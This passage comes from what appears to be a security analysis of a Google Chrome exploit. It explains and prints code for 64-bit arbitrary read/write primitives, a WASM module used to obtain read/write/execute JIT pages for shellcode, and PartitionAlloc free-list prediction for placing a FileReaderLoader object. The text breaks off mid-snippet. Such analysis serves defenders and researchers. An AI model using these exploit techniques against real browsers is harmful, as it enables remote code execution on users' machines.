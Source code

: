 


123456789101112131415

function read64(rwHelper, addr) { rwHelper[0] = addr; var tmp = new BigUint64Array; tmp.buffer; gcPreventer.push(tmp); return byteSwapBigInt(rwHelper[0]);} function write64(rwHelper, addr, value) { rwHelper[0] = addr; var tmp = new BigUint64Array(1); tmp.buffer; tmp[0] = value; gcPreventer.push(tmp);}




After the building of the arbitrary read/write primitives comes the final stage – executing the code. The exploit achieves this by using a popular technique that exploits the Web Assembly (WASM) functionality. Google Chrome currently allocates pages for just-in-time (JIT) compiled code with read/write/execute (RWX) privileges and this can be used to overwrite them with shellcode. At first, the exploit initiates a “stub” WASM module and it results in the allocation of memory pages for JIT compiled code.





const wasmBuffer = new Uint8Array([...]);
const wasmBlob = new Blob([wasmBuffer], {
	type: "application/wasm"
});
 
const wasmUrl = URL.createObjectURL(wasmBlob);
var wasmFuncA = undefined;
WebAssembly.instantiateStreaming(fetch(wasmUrl), {}).then(function(result) {
	wasmFuncA = result.instance.exports.a;
});




12345678910

const wasmBuffer = new Uint8Array([...]);const wasmBlob = new Blob([wasmBuffer], { type: "application/wasm"}); const wasmUrl = URL.createObjectURL(wasmBlob);var wasmFuncA = undefined;WebAssembly.instantiateStreaming(fetch(wasmUrl), {}).then(function(result) { wasmFuncA = result.instance.exports.a;});




To execute the exported function wasmFuncA, the exploit creates a FileReader object. When this object is initiated with data it creates a FileReaderLoader object internally. If you can parse PartitionAlloc allocator structures and know the size of the next object that will be allocated, you can predict which address it will be allocated to. The exploit uses the getPartitionPageFreeListHeadEntryBySlotSize() function with the provided size and gets the address of the next free block that will be allocated by FileReaderLoader.





let fileReader = new FileReader;
let fileReaderLoaderSize = 0x140;
let fileReaderLoaderPtr = getPartitionPageFreeListHeadEntryBySlotSize(freelist, iirFilterFeedforwardAllocationPtr, fileReaderLoaderSize);
if (!fileReaderLoaderPtr)
	return;
 